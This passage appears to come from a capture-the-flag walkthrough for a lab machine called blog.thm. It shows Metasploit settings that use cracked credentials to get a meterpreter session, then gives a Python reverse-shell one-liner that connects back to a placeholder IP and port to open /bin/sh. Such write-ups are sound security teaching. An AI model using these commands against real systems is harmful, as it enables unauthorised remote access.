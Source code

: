 ![Pasted image 20250328150658.png](../../IMAGES/Pasted%20image%2020250328150658.png)



Let's use these options in order to get the shell in `metasploit`:


```
set username kwheel
set password cutiepie1
set rhosts blog.thm
set lhost tun0
exploit
```

After we send the exploit, we get a `meterpreter` session:

![Pasted image 20250328150952.png](../../IMAGES/Pasted%20image%2020250328150952.png)

We can migrate into netcat for a more comfortable shell or stay in meterpreter, I decided to migrate just for run:

```
python3 -c 'import socket,os,pty;s=socket.socket();s.connect(("IP",9001));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```

Let's proceed with privilege escalation.
